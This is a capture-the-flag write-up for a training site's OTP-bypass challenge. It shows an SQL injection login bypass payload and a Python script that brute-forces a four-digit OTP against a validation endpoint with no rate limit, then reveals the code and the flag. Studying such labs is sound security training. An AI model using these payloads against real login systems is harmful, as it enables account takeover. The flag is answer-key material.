

# Mobile Phones Are Bad

**Date:** 04, July, 2021

**Author:** Dhilip Sanjay S

---

- The hacker said, Gurugram Interns are intelligent enough to get through this challenge. `https://mudpmd.hackingbrawl.com/`

### Let's brush some database 
- **Answer:** ctf{youdidit}
- **Hint:** Well admin will receive otp of 4 digits.
- **Steps to Reproduce:** 
	- Use a basic SQL injection payload to bypass the login.
	- Error based SQLi
		- username: `' or '1=1`
		- password: `' or '1=1`



- We have the OTP Verification page - without rate limiting.
- We can bruteforce the OTP!


- Bruteforcing Python script:

```py
#! /usr/bin/python3
import requests

url = 'https://mudpmd.hackingbrawl.com/validate_login.php'

req = requests.Session()
for num in range(1000, 10000):
	try:
		print("[+] Guessing ", num)
		data = {
			'code' : num,
			'btnValidate' : ''
		}
		r = req.post(url, data=data, timeout=5)
		if "Invalid Authentication Code!" not in r.text:
			print(r.text)
			exit(0)
	except requests.Timeout as err:
		print("Error occurred")
		break
```

- The OTP is **7621**:

```html
[..snip..]
[+] Guessing  7621
<!doctype html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>Hackershala OTP BYPASS : User Profile</title>

<link rel="stylesheet" href="css/bootstrap.min.css">
</head>
<body>
<div class="container">
<div class="row jumbotron">
<div class="col-md-12">
<h2>
<center>Simple OTP Bypass Simulation</center>
</h2>
<p>
<center>Get Trained at hackershala.com</center>
</p>
</div>
</div>
<div class="row">
<div class="col-md-5 col-md-offset-3 well">
<h2>User Profile</h2>
<h4>Welcome Hacker</h4>
<p>Account Details: ctf{youdidit}</p>
<p>Name: Admin </p>
<p>Username admin </p>
<p>Email <a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="1d7c797074735d7c79707473337e7270">[email&#160;protected]</a></p>
<br>
Click here to <a href="logout.php">Logout</a>
</div>
</div>
</div>
<script data-cfasync="false" src="/cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js"></script></body>
</html>
```


---